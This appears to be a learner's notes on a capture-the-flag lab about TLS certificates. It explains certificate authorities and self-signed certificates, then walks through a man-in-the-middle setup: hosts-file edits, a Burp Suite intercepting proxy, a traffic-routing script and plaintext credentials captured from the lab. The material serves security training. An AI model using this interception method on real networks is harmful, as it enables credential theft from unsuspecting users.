 ## day 14: certificate management 

- **Public key**: At its core, a certificate contains a public key, part of a pair of cryptographic keys: a public key and a private key. The public key is made available to anyone and is used to encrypt data.
- **Private key**: The private key remains secret and is used by the website or server to decrypt the data.
- **Metadata**: Along with the key, it includes metadata that provides additional information about the certificate holder (the website) and the certificate. You usually find information about the Certificate Authority (CA), subject (information about the website, e.g. www.meow.thm), a uniquely identifiable number, validity period, signature, and hashing algorithm.

A CA is a trusted entity that issues certificates; for example, GlobalSign, Let’s Encrypt, and DigiCert are very common ones.

- handshake = browser requests a secure connection , website sends a certificate 
- verification = browser checks certificate if issued by certificate authority 
- key exchange = browser used public key to encrypt a session key (all communication)
- decryption = website server uses private key to decrypt session (symmetric)

- **Browsers** generally do not trust self-signed certificates because there is no third-party verification. The browser has no way of knowing if the certificate is authentic or if it’s being used for malicious purposes (like a **man-in-the-middle attack**).
- **Trusted CA certificates**, on the other hand, are verified by a CA, which acts as a trusted third party to confirm the website’s identity.

attackbox
```
echo "10.10.182.79 gift-scheduler.thm" >> /etc/hosts

cat /etc/hosts

browser: https://gift-scheduler.thm

warning potential security risk > advanced > view certifcate > accept

mayor_malware : G4rbag3Day

BurpSuite: 
	intercept on
	proxy listeners > add > port 8080 specific address IP

echo "10.10.139.215 wareville-gw" >> /etc/hosts

#-- this code running to capture all requests
cd ~/Rooms/AoC2024/Day14
./route-elf-traffic.sh

BurpSuite: HTTP history 

username=admin&password=e6a3b435
username=admin&password=d722eb32
username=admin&password=601dba24
username=admin&password=416e1b71

username=marta_mayware&password=H0llyJ0llySOCMAS!
username=snowballelf&password=c4rrotn0s3
username=greenelf&password=r3d4ppl3
username=sugarplumelf&password=xm4sc4ndy
username=firmware&password=B1OSvsU3FI



```
